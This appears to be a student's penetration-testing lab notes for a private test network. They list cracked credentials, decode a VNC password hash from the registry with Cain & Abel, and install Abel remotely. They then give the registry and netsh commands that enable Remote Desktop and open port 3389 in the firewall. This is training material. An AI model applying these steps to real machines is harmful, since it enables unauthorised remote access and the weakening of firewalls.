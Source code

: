 
with dictionary attack:
```
aline:soccer
dba:gloves
admin:monkey

```
Network tab > Quick list > add to quick list > 172.16.5.10 (this ip has firewall, we cant access through rdp)
alice:soccer (credentials we got earlier with MITM )
Registry  > Software > ORL > WinVNC3 > Password > grab the hash
Cain Tools > VNC Password Decoder > paste the hash = NBARocks

Network tab > quick list > add > 172.16.5.10 > alice:soccer > services > install abel
This will give us additional features like windows shell, routing information, password hashes etc

Go back to quick list > Abel > Console
- view firewalls rules

```
	netsh firewall show config = to review firewalls rules
```

- this will enable Remote Desktop

```
	reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f 
```

- check the port 3389 (its listening)

```
	netstat -an |findstr :3389
```

- enable on the Windows Firewall

```
	netsh firewall add portopening TCP 3389 "Remote Desktop"
```

- verify the firewall rules again to see if 3389 is able

```
	netsh firewall show config
```

> At this point we can access the last machine 172.16.5.10 via RDP


> OBS: we need to right click in cracker > reset position of dictionary before executing



## Lab Poison

my ip : 172.16.5.100

scope
- 172.16.5.0/24
